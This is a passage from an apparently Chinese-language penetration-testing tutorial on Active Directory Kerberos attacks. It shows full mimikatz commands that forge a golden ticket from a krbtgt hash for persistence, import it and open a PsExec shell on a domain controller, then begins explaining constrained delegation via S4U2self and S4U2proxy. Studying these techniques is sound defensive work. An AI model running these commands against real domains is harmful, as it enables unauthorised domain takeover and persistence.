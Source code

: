 在导出krbtgt用户资料中截取域sid和ntlm hash值，运行以下命令生成Golden.kirbi黄金票据，保存票据用于权限维持：

mimikatz.exe "kerberos::golden /domain:zack.com
/sid:S-1-5-21-2281865729-1693742006-1002177903
/krbtgt:866e2e58d93b0cc0c6161d03a72c134f /user:administrator
/ticket:Golden.kirbi" "exit" > result.txt

![]()

使用mimikatz工具清除票据，然后导入生成的黄金票据，看到可以免登入访问域控c盘：

kerberos::purge

kerberos::ptt C:\Users\Administrator\tools\Golden.kirbi

misc::cmd

![]()

使用PsExec64.exe工具调用域控cmd窗口：

PsExec64.exe \\\dc.zack.com cmd.exe

![]()



4、约束委派攻击

漏洞原理：约束委派攻击与非约束委派攻击类似，只是约束委派限制了访问的主机和服务，获取到设置了约束委派的机械账户ntlm哈希或设置了约束委派的主机账户ntlm哈希或明文密码，就可以生成tgt票据导入内存来访问约束委派设置允许访问的主机上的服务。

（1）约束性委派流程

由于非约束委派的不安全性（配置了非约束委派的机器在 LSASS 中缓存了用户的 TGT 票据可模拟用户去访问域中任意服务），微软在 Windows
Server 2003 中引入了约束委派，对 Kerberos 协议进行拓展，引入了 S4U (S4U2Self / S4U2proxy),
运行服务代表用户向 KDC 请求票据。

S4U2self (Service for User to S4U2Self) ：

可以代表自身请求针对其自身的 Kerberos 服务票据(ST)；如果一个服务账户的 userAccountControl 标志为
TRUSTED_TO_AUTH_FOR_DELEGATION，则其可以代表任何其他用户获取自身服务的 TGS/ST。

S4U2proxy(Service for User to Proxy) ：

可以以用户的名义请求其它服务的 ST，限制了 S4U2proxy 扩展的范围。服务帐户可以代表任何用户获取在 msDS-
AllowedToDelegateTo 中设置的服务的 TGS/ST，首先需要从该用户到其本身的 TGS/ST，但它可以在请求另一个 TGS 之前使用
S4U2self 获得此 TGS/ST。

![]()

S4U2self 验证部分：

(1) 用户向 service1 发送请求。用户已通过身份验证，但 service1 没有用户的授权数据。通常，这是由于身份验证是通过 Kerberos
以外的其他方式验证的。

(2) 通过 S4U2self 扩展以用户的名义向 KDC 请求用于访问 service1 的 ST1。

(3) KDC 返回给 service1 一个用于用户验证 service1 的 ST1，该 ST1 可能包含用户的授权数据。
